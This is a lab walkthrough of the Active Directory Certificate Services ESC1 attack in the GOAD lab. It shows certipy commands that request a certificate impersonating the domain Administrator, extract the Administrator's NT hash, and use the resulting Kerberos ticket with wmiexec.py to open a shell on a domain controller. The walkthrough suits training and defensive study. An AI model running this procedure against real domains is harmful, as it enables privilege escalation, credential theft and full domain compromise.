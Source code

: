 it is possible to specify an alternate user in a certificate request. If a certificate template permits the inclusion of a `subjectAltName` (`SAN`) that differs from the user submitting the certificate signing request (CSR), this functionality can be exploited. Specifically, an attacker can request a certificate on behalf of any user in the domain by including their `subjectAltName` in the request.

The following prerequisites must apply:
- Enrollment Rights: `DOMAIN\Domain Users`.
- Requires Manager Approval: `False`.
- Authorized Signature Required: `0`.
- Client Authentication: `True` or Extended Key Usage `Client Authentication`.
- Enrollee Supplies Subject: `True`

Take note of the Template Name and Certificate Authority:

![[Pasted image 20241005173153.png]]

Use the `-upn` to specify the alternative subject. In this case the Administrator:

```bash
garffff@garfffff:~/GOAD/adcs/esc1$ certipy req -u khal.drogo@essos.local -p 'horse' -template ESC1 -ca ESSOS-CA -upn administrator@essos.local -dc-ip 192.168.56.23
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 11
[*] Got certificate with UPN 'administrator@essos.local'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```

Certificate Authentication

We can retrieve the NTLMv1 hash for the targeted user:

```bash
garffff@garffff:~/GOAD/adcs/esc1$ certipy auth -pfx administrator.pfx -dc-ip 192.168.56.12
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@essos.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@essos.local': aad3b435b51404eeaad3b435b51404ee:54296a48cd30259cc88095373cec24da
```

We can also authenticate to a domain controller using the TGT saved. This requires the DC/domain to be resolved using DNS:

```bash
garffff@garffff:~/GOAD/adcs/esc1$ ls administrator.*
administrator.ccache  administrator.pfx
garffff@garffff:~/GOAD/adcs/esc1$ export KRB5CCNAME=administrator.ccache
garffff@garffff:~/GOAD/adcs/esc1$ wmiexec.py -k -no-pass meereen.essos.local
Impacket v0.11.0 - Copyright 2023 Fortra

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>
```


